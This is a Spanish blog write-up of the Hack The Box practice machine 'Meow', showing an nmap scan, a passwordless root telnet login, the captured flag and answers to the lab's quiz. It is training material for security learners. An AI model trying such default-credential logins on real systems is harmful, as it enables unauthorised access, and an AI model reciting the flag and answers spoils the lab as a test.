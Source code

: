 ```yaml
---
layout: single
title: <span class="htb">Meow - <span class="starting_point">Starting point</span> - Hack The Box</span>
excerpt: "En este post vamos a comenzar con las máquinas del starting point del tier 0, la primera es Meow y será la elegida para este primer write up.
Me voy a centrar en el proceso de explotación ya que exiten diferentes preguntas las cuales no aportan elementos de valor, en el caso de que sean indispensables
para llevar acabo la explotación citaré los recursos en el proceso."
date: 2022-07-06
classes: wide
header:
  teaser: /assets/images/Meow/Descripcion_meow.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.png
categories:
  - Hack The Box
  - Starting point
  - Tier 0
tags: 
  - Telnet
  - Nmap
---
```


## DESCRIPCION

En este post vamos a comenzar con las máquinas del starting point del tier 0, la primera es Meow y será la elegida para este primer write up.
Me voy a centrar en el proceso de explotación ya que exiten diferentes preguntas las cuales no aportan elementos de valor, en el caso de que sean indispensables
para llevar acabo la explotación citaré los recursos en el proceso.

## INDICE

- [Escaneo de puertos](#escaneo-de-puertos)
- [Conexión por telnet](#conexion-por-telnet)
- [Respuestas HTB](#respuestas)

## ESCANEO DE PUERTOS

Vamos a lanzar un escaneo básico para encontrar los puertos abiertos en la máquina.

```zsh
nmap --open -p- 10.129.74.180 -T5 -oG Puertos
Host: 10.129.74.180 ()  Status: Up
Host: 10.129.74.180 ()  Ports: 23/open/tcp//telnet///

```

Podemos ver que el protocolo telnet esta abierto, lanzaremos los scripts predeterminados de nmap al puerto 23.

```zsh
nmap -sCV -p 23 -oN Objetivos 10.129.1.17
Nmap scan report for 10.129.1.17
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Por lo que se puede ver es una máquina linux, pero no obtenemos demasiada información, al no encontrar más puertos por los que intentar comprometer el host, podemos proceder a logueranos
por telnet.

## CONEXION POR TELNET

Intentamos conectarnos con `Usuario:root`.

```zsh
❯ telnet 10.129.1.17
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 06 Jul 2022 01:03:13 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.1.17
  IPv6 address for eth0: dead:beef::250:56ff:fe96:d4ec

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# 
```

Por un error de configuración el usuario root no tiene contraseña dando acceso a la máquina de forma instantánea. Siendo root solo nos queda buscar la flag.

```zsh
root@Meow:~# pwd
/root
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19

```
Hemos explotado la primera máquina del starting point tier 0 con èxito. 

## RESPUESTAS

### Pregunta 1

What does the acronym VM stand for?

`Virtual Machine`

### Pregunta 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

`terminal`

### Pregunta 3

What service do we use to form our VPN connection into HTB labs?

`openvpn`

### Pregunta 4

What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?

`tun`

### Pregunta 5

What tool do we use to test our connection to the target with an ICMP echo request?

`ping`


### Pregunta 6

What is the name of the most common tool for finding open ports on a target?

`nmap`

### Pregunta 7

What service do we identify on port 23/tcp during our scans?

`telnet`

### Pregunta 8

What username is able to log into the target over telnet with a blank password?

`root`


### Bandera

Submit root flag

`b40abdfe23665f766f9c61ecba8a4c19`


